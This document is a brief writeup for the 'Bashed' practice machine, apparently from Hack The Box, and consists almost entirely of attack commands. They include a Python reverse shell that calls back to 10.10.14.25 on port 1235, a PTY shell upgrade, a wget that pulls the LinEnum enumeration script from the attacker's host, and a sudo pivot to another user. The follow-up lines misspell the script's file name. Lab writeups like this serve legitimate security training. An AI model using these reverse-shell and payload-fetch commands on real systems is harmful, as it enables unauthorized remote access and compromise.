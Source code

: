 ## Writeup and notes for the Bashed box.

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

```shell
python3 -m http.server 8000
```

```shell
wget 10.10.14.25:8000/LinEnum.sh
chmod +x LinsEnum.sh
./LinEnsum.sh 
```

```shell 
sudo -u scriptmanager /bin/bash
```
